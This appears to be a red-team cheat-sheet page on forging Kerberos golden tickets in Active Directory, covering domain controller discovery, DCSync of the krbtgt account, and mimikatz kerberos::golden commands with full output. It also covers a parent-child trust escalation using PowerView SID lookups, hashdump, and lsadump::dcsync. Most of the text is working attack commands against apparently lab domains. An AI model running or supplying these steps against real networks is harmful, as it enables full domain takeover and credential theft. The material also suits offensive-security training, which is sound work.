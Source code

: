 1. Get DC [[PowerView#Get-DomainController]] 
2. [[PowerView#Get-DomainSID]]
3. [[DCSync]] the krbtgt user
4. Generate [[Golden Ticket]] as follows:
Where:
-   `/user` is the username to impersonate : see 2
-   `/domain` is the current domain name : see 1
-   `/sid` is the current domain SID. : see 2
-   `/aes256` is the AES256 key for the krbtgt : see 3
-   `/ticket` is the filename to save the ticket as.
```beacon
mimikatz # kerberos::golden /user:Administrator /domain:edu.evil.corp /sid:S-1-5-21-3263068140-2042698922-2891547269 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /ticket:golden.kirbi
User      : Administrator
Domain    : edu.evil.corp (EDU)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa - aes256_hmac
Lifetime  : 3/11/2022 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM
-> Ticket : golden.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```
3. [[Use Kerberos ticket (kirbi)]]

## [[Parent-Child]]
revert via:
>beacon> rev2self

### Create golden ticket ParentChild
```beacon
powershell Get-DomainGroup -Identity "Domain Admins" -Domain rto.local -Properties ObjectSid
objectsid                                    
---------                                    
S-1-5-21-2323903455-1895497758-3703895482-512

powershell Get-DomainGroup -Identity "Domain Admins" -Domain child.rto.local -Properties ObjectSid
objectsid                                   
---------                                   
S-1-5-21-1886337448-2504686659-850325809-512

hashdump
or
mimikatz lsadump::dcsync /user:CHILD\krbtgt /domain:child.rto.local
aes256_hmac       (4096) : 0c5f44579dd7cd99796e0ca64506184e2779d4ab96690ac042a80e1d29097477
```
